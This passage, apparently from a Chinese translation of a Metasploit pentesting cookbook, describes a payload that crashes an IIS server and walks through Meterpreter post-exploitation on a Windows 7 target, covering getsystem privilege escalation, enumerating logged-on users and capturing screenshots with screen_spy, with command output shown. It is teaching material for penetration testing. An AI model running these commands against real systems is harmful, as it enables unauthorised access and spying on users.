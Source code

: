 ```
next
end
end 
```

如您所见，该脚本生成的负载大小超过 40000。然后，在端口 80 上建立连接以向 IIS 服务器发送 HTTP 请求。服务器呈现请求后，它将崩溃并停止工作，除非重新启动。

# 后开发模块

到目前为止，我们已经在开发后阶段使用了不同功率的 MeterMeter 进行了大量工作。然而，我们还有一个单独的专用模块列表，可以增强我们的渗透测试经验。由于它们是开发后模块，我们需要与目标进行一次活动会话。我们可以使用前面章节中描述的任何方法来访问我们的目标。

## 准备好了吗

post 模块是渗透测试时可以使用的一些最有趣、最方便的功能的集合。让我们在此快速分析其中一些。在这里，我们使用一台未打补丁的 Windows 7 计算机作为我们的目标，它有一个活动的 MeterMeter 会话。

## 怎么做。。。

您可以在 `modules/post/windows/gather`中找到 post 模块。让我们从一个简单的 `enum_logged_on_users`模块开始。此 post 模块将列出 Windows 计算机中当前登录的用户。

我们将通过活动的 MeterMeter 会话执行该模块。此外，请记住使用 `getsystem`命令升级权限，以避免在模块执行过程中出现任何错误。

```
meterpreter > getsystem
...got system (via technique 4).
meterpreter > run post/windows/gather/enum_logged_on_users
[*] Running against session 1
Current Logged Users
====================
SID User
--- ----
S-1-5-21-2350281388-457184790-407941598 DARKLORD-PC\DARKLORD
Recently Logged Users
=====================
SID Profile Path
--- ------------
S-1-5-18 %systemroot%\system32\config\systemprofile
S-1-5-19 C:\Windows\ServiceProfiles\LocalService
S-1-5-20 C:\Windows\ServiceProfiles\NetworkService
S-1-5-21-23502 C:\Users\DARKLORD
S-1-5-21-235 C:\Users\Winuser 
```

模块的成功执行向我们展示了两个表。第一个表反映当前登录的用户，第二个表反映最近登录的用户。执行模块时遵循正确的路径。我们使用了 `run`命令来执行模块，因为它们都是以 Ruby 脚本的形式出现的，所以 MeterMeter 可以很容易地识别它。

让我们再举一个例子。有一个有趣的 post 模块可以捕获目标桌面的屏幕截图。当我们必须知道是否有任何活动用户时，此模块非常有用。我们将使用的模块是 `screen_spy.rb:`

```
meterpreter > run post/windows/gather/screen_spy
[*] Migrating to explorer.exe pid: 1104
[*] Migration successful
[*] Capturing 60 screenshots with a delay of 5 seconds 
```
